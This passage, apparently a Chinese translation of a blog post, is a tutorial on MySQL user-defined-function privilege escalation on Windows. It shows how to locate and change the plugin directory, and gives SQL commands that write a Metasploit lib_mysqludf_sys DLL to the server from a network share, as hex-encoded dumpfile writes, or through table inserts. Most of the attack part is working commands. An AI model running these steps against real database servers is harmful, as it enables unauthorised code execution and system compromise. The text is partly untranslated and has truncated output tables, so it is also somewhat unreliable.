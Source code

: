 ```
+--------------------------------------------------------------+
| @@plugin_dir                                                 |
+--------------------------------------------------------------+
| D:\MySQL\mysql-5.7.21-winx64\mysql-5.7.21-winx64\lib\plugin\ |
+--------------------------------------------------------------+
1 row in set (0.02 sec)

MySQL [(none)]> show variables like 'plugin%';
+---------------+--------------------------------------------------------------+
| Variable_name | Value                                                        |
+---------------+--------------------------------------------------------------+
| plugin_dir    | D:\MySQL\mysql-5.7.21-winx64\mysql-5.7.21-winx64\lib\plugin\ |
+---------------+---------------------------------------------------
```
![](https://osandamalith.files.wordpress.com/2018/02/plugin.png)
您可以通过将新值传递给mysqld来更改插件目录变量。
```
mysqld.exe –plugin-dir=C:\\temp\\plugins\\
```
另一种方法是用plugin目录编写一个新的mysql配置文件并将其传递给mysqld。
```
mysqld.exe --defaults-file=C:\\temp\\my.ini
```
The content of the ‘my.ini’
```[mysqld]
plugin_dir = C:\\temp\\plugins\\
```
从MySQL 5.0.67开始，文件必须位于plugin目录中。该目录取决于plugin_dir系统变量的值。如果plugin_dir的值为空，则参照5.0.67之前即文件必须位于系统动态链接器的搜索目录中。
在5.0.67之前的MySQL版本中， the file must be in a directory that is searched by your system’s dynamic linker。这同样适用于4.1.25之前的MySQL版本.
5.0<=mysql<5.0.67，则需要导出至目标服务器的系统目录（如：system32）
在旧版本中，您可以将DLL文件上传到以下位置并创建新的UDF功能。

```
@@ DATADIR
@@ BASEDIR \ BIN
C：\ WINDOWS
C：\ WINDOWS \ SYSTEM
C：\ WINDOWS \ SYSTEM32
```

### 上传二进制文件
有很多可能的方法可以做到这一点。load_file函数支持网络路径。如果您可以将DLL复制到网络共享中，您可以直接加载它并写入磁盘。
```
select load_file('\\\\192.168.0.19\\network\\lib_mysqludf_sys_64.dll') into dumpfile "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";
```
另一种方法是用一个十六进制编码的字符串将整个DLL文件写入磁盘。
```
select hex(load_file('/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll')) into dumpfile '/tmp/udf.hex';

select 0x4d5a90000300000004000000ffff0000b80000000000000040000000000000000000000000000000000000000… into dump file "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";
```
另一种方法是创建一个表并将二进制数据插入到十六进制编码流中。您可以尝试在一个插入语句中编写代码或将其分解为多个部分，其中使用update语句来联系二进制数据
```
create table temp(data longblob);

insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);

```